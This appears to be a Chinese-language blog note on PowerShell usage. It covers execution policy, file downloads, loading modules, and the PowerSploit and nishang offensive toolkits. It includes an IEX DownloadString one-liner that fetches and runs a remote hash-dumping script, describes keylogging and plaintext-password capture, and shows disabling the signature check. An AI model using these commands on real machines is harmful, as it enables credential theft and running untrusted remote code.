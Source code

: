 ```yaml
---
layout: docs
category : note
tagline: "powershell"
tags : [powershell, code, notes,test]
---
```


1.`powershell`执行脚本：

默认情况是阻止的，输入如下命令即可运行`powershell`脚本：
{% highlight bash %}
set-executionpolicy remotesigned
{% endhighlight %}

2.`powershell`脚本后缀为：`ps1`

3.route add,Nod32,portscan(no),mb_login(yes)

4.`powershell`下载文件：
{% highlight cpp %}
(new-object System.Net.WebClient).DownloadFile( 'http://down.360safe.com/inst.exe','I:\360.exe')
{% endhighlight %}

5.功能强大的 `powershell` 合集： [https://github.com/mattifestation/PowerSploit](https://github.com/mattifestation/PowerSploit).,可以获取明文口令、键盘记录、定时截图等。

用法简单说明：

将powersploit文件夹拷贝到`powershell`模块目录下，其模块目录可以通过
{% highlight bash %}
echo $Env:PSModulePath
{% endhighlight %}

查看模块目录。注意：文件夹名称必须是`powersploit`。然后导入模块：
{% highlight bash %}
import -m powersploit
{% endhighlight %}

接着就可以使用:
{% highlight bash %}
get-command -m powersploit
{% endhighlight %}

查看其命令，并可以`get-help` 查看其命令帮助了。

6.`powershell` 获取`HASH`：

获取`HASH`的`powershell`脚本为：[https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1).

使用方法有如下两种：

1).
{% highlight bash %}
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes
{% endhighlight %}
2).
{% highlight bash %}
iex -command .\Get-PassHashes.ps1;get-passhashes 
{% endhighlight %}
（这种方式不正确,因为文件内容整体上没有被认为是字符串类型）。可用的方式是：在`get-passhashes.ps1`文件最后面，加上 `Get-PassHashes` 即可（因为文件只提供了函数定义，没有调用，我们加上调用语句 即可，调用时，这里不要加括号之类的，然后`powershell`中执行该文件即可。

3).导入模块
{% highlight bash %}
import-module Get-PassHashes.ps1
{% endhighlight %}
然后调用 `Get-PassHashes` 即可。也可以合起来一起写：
{% highlight bash %}
import-module .\Get-PassHashes.ps1;get-passhashes
{% endhighlight %}
7.导入模块

导入模块分为两种，一种是导入到系统模块，还有一直是导入到当前会话。

导入到系统模块，则会全局生效，需要拷贝到 `$Env:PSModulePath` 中指定的路径之下，并使用
{% highlight bash %}
import -m 模块名
{% endhighlight %}
即可导入。

导入到当前会话，只需要 
{% highlight bash %}
import-module 模块文件名
{% endhighlight %}
然后就可以调用其命令了。到`powershell`退出后，模块也跟着消逝。

如果导入模块时，报未经数字签名的错误，可以设置数字签名为不限制的来解决
{% highlight bash %}
Set-ExecutionPolicy Unrestricted
{% endhighlight %}
或者右键该文件，选择解除锁定